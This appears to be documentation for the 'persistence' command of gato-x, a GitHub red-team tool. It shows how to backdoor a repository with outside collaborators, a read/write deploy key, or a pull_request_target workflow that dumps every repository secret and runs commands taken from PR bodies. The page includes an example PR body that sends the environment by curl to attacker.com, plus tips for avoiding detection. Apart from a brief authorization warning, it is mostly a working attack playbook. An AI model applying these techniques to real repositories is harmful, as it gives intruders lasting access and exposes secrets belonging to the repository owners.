 # Persistence Command

The persistence command enables red teamers and security researchers to deploy advanced persistence techniques in GitHub repositories. This command provides three main attack vectors based on different privilege levels and creates lasting backdoors that can survive various defensive actions.

> **Warning**: These features should only be used with proper authorization and for ethical security research purposes.

## Basic Usage

```bash
gato-x persistence [options]
# or
gato-x persist [options]
# or
gato-x p [options]
```

## Options

### General Options

| Option | Description |
|--------|-------------|
| `--target`, `-t` | Repository to target for persistence in ORG/REPO format (required) |
| `--author-name`, `-a` | Name of the author that all git commits will be made under |
| `--author-email`, `-e` | Email that all git commits will be made under |

### Persistence Technique Options

**Note**: These options are mutually exclusive - you can only select one technique per command execution.

#### Collaborator Invitation (Admin Required)

| Option | Description |
|--------|-------------|
| `--collaborator` | Invite outside collaborators to the repository (requires admin privileges) |

#### Deploy Key Creation (Admin Required)

| Option | Description |
|--------|-------------|
| `--deploy-key` | Create a read/write deploy key for the repository (requires admin privileges) |
| `--key-title`, `-k` | Title for the deploy key (default: "Gato-X Deploy Key") |

#### Malicious Workflow Creation (Write Required)

| Option | Description |
|--------|-------------|
| `--pwn-request` | Create a malicious pull_request_target workflow on a non-default branch (requires write privileges) |
| `--branch-name`, `-b` | Branch name for pwn-request technique (default: "feature/test-workflow") |

## Persistence Techniques

### 1. Collaborator Invitation

**Privilege Level**: Admin required

This technique invites external users as collaborators to maintain access to the repository.

```bash
# Invite single collaborator
gato-x persistence --target org/repo --collaborator username1

# Invite multiple collaborators
gato-x persistence --target org/repo --collaborator username1 username2 username3
```

**How it works**:
- Sends collaboration invitations to specified GitHub users
- Once accepted, collaborators maintain access even if the original PAT is revoked
- Collaborators inherit repository permissions based on their invitation level

### 2. Deploy Key Creation

**Privilege Level**: Admin required

This technique generates and installs read/write SSH deploy keys with automatic RSA key pair generation.

```bash
# Create deploy key with default title
gato-x persistence --target org/repo --deploy-key

# Create deploy key with custom title
gato-x persistence --target org/repo --deploy-key --key-title "Backup Key"
```

**How it works**:
- Generates a 2048-bit RSA key pair automatically
- Installs the public key as a read/write deploy key in the repository
- Outputs the private key for the attacker to save securely
- Deploy key provides Git access independent of the original PAT

### 3. Malicious Pull Request Target Workflow

**Privilege Level**: Write required

This technique creates a weaponized `pull_request_target` workflow on non-default branches that can be triggered by external contributors.

```bash
# Create malicious workflow on default branch name
gato-x persistence --target org/repo --pwn-request

# Create malicious workflow on custom branch
gato-x persistence --target org/repo --pwn-request --branch-name feature/test
```

**How it works**:
- Creates a new branch with a malicious GitHub Actions workflow
- Uses `pull_request_target` trigger to bypass standard PR security restrictions
- Grants full repository permissions to the workflow
- Exfiltrates all repository secrets via `toJson(secrets)`
- Executes arbitrary code from PR body content
- Can be triggered by any external contributor creating a PR targeting the specified branch

## Example Workflows

### Complete Persistence Setup

```bash
# Step 1: Create deploy key for Git access
gato-x persistence --target victim/repo --deploy-key --key-title "Maintenance Key"

# Step 2: Invite backup collaborator
gato-x persistence --target victim/repo --collaborator backup-user

# Step 3: Create workflow backdoor
gato-x persistence --target victim/repo --pwn-request --branch-name feature/ci-improvements
```

### Triggering Workflow Persistence

After creating a malicious workflow, trigger it by:

1. Creating a pull request targeting the specified branch
2. Including shell commands in the PR body
3. The workflow will execute the commands and exfiltrate secrets

Example PR body:
```bash
# This is a test PR
whoami
env | grep -E "(SECRET|TOKEN|KEY)"
curl -X POST https://attacker.com/exfil -d "$(env)"
```

## Security Considerations

### Persistence Durability

- **Deploy Keys**: Removed when the creating PAT is revoked or user access is removed
- **Collaborators**: Maintain access until manually removed by repository administrators
- **Malicious Workflows**: Persist until the branch is deleted or workflow file is removed

### Detection Evasion

- Use realistic branch names and workflow titles
- Space out persistence techniques over time
- Use legitimate-looking collaborator usernames
- Deploy keys can use descriptive titles that blend with legitimate keys

## Troubleshooting

### Permission Errors

- **Admin techniques**: Verify you have admin access to the target repository
- **Write techniques**: Verify you have write access to the target repository
- **API limits**: Respect GitHub API rate limits

### Common Issues

- **Deploy key conflicts**: GitHub prevents duplicate SSH keys; ensure your generated key is unique
- **Branch conflicts**: Choose branch names that don't conflict with existing branches
- **Workflow validation**: GitHub validates workflow syntax; malformed YAML will be rejected

## Related Commands

- [Attack Command](attack.md) - Execute various attack techniques against repositories
- [Enumerate Command](enumerate.md) - Discover accessible repositories and permissions
- [Search Command](search.md) - Find repositories with potential vulnerabilities